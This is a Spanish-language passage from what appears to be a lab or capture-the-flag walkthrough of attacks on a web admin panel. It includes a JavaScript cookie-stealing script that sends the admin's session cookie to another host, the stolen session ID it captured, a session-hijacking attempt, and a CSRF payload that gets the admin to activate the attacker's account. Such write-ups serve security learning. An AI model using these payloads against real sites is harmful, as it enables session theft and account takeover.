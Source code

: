 **Explicación:** Existe un usuario administrador que visita regularmente el panel → Vía para robar su sesión.

---

### 13º - pwned.js (robo de cookie)

**Script:**

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.52/?cookie=' + document.cookie);
request.send();
```

**Resultado:**

```http
GET /?cookie=PHPSESSID=20bh8he656k9ksmn68vehilc02
```

**Explicación:** Capturamos sesión activa.

---

### 14º - Prueba de hijacking

**Acción:** Pegamos cookie robada en `DevTools → Storage`.

**Resultado:** Mensaje:

> Sorry, as an administrator, you can be authenticated only once a time.

**Explicación:** Solo puede haber una sesión activa. No podemos entrar sin echar al admin.

**Problema:** Riesgo de llamar la atención.

**Solución:** Usar CSRF para que él mismo active nuestra cuenta.

---

### 15º - Ataque CSRF

*CSRF* (Cross-Site Request Forgery) permite ejecutar acciones autenticadas en nombre de otro usuario, si no se valida el origen de las peticiones (por ejemplo, mediante tokens).

**Acción:**

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.53/admin/admin.php?id=11&status=active');
request.send();
```

**Resultado:** Al inyectar este script, el admin activa nuestra cuenta.

**Explicación:** Vulnerabilidad por uso de parámetros GET sin protección.

---
